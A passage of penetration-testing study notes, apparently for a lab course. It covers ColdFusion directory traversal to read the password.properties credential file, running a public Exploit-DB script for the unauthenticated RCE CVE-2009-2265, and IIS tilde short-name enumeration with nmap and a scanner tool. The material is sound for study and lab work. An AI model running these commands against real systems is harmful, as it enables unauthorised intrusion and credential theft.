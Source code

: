       python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
      # password.properties is a config file in ColdFusion, stores encrypted creds
      ```

    * unauthenticated RCE (CVE-2009-2265) - can execute arbitrary code without any creds; this affects versions 8.0.1 and earlier:

      ```sh
      searchsploit -p 50057

      cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .

      vim 50057.py
      # modify script
      # edit the IP and port details

      python3 50057.py
      ```

* IIS Tilde enumeration:

  * when a file/folder is created on an IIS (Internet Information Services) server, Windows generates a short file name in ```8.3 format``` (8 chars for filename, a period, and 3 chars for extension)

  * the tilde ```~``` char, followed by a sequence number, signifies a short file name in a URL - so if we know the short file name, we can use ```~``` in URL to access it

  * for example, if we have a hidden directory 'SecretDocuments', if a request is sent to <http://example.com/~s>, server replies with ```200 OK```, meaning that short name begins with 's'; we can continue appending more characters by fuzzing

  * if two files named 'somefile.txt' and 'somefile1.txt' exist in same directory, their 8.3 short file names would be ```somefi~1.txt``` and ```somefi~2.txt```

  * we can use tools such as [IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner/blob/master/release/iis_shortname_scanner.jar) for enumeration - this requires [setting up Oracle Java](https://ubuntuhandbook.org/index.php/2022/03/install-jdk-18-ubuntu/)

  * enumeration:

    ```sh
    nmap -p- -sV -sC --open 10.129.133.206
    # identify IIS server

    # install Oracle Java before running tool

    git clone https://github.com/irsdl/IIS-ShortName-Scanner.git

    cd IIS-ShortName-Scanner/release
